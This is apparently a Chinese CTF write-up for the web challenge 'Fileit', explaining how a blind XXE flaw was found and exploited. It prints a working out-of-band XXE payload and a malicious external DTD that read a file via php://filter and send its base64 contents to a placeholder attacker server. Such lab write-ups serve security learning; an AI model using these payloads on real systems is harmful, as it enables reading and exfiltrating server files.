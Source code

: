 +++
title = '全国高校运维大赛web Fileit Wp'
date = 2024-05-07T17:37:34+08:00
draft = false
image = "/cover/cover8.webp"
categories = [
    "CTF"
]

tags = [
    "CTF",
    "XXE"
]
+++
打开题目发现是一个毫无功能的界面，但是在源码中发现
![Alt text](../../../image/image-14.png)
存在一段解析xml的注释，合理猜测存在XXE漏洞

先抓个包分析一下
![Alt text](../../../image/image-15.png)

发现可以传输xml格式的数据，将请求改为post并使用dnslog判断靶机是否能出网。
发现出网成功，但是毫无回显。很明显xml数据被解析并且执行了，所以是一个无回显的xxe漏洞。

![Alt text](../../../image/image-16.png)

所以攻击思路很明确了。
1. 使用php://filter读取flag
2. 引入外部恶意实体
3. 将读取信息发送回外部服务器

尝试传入以下xml
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE updateProfile [
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=/flag">
    <!ENTITY % dtd SYSTEM "http://xxx.xxx.xxx.xxx:端口号/evil.dtd">  <!--将端口号和ip换成自己的-->
    %dtd;
    %send;
]>

```

在自己的服务器上创建恶意dtd
```xml
<!ENTITY % all
   "<!ENTITY &#x25; send SYSTEM 'http://xxx.xxx.xxx/?data=%file;'>" <!--将端口号和ip换成自己的-->
>
%all;
```

开启端口监听，然后发送数据包，拿到以base64加密的flag
![Alt text](../../../image/image-17.png)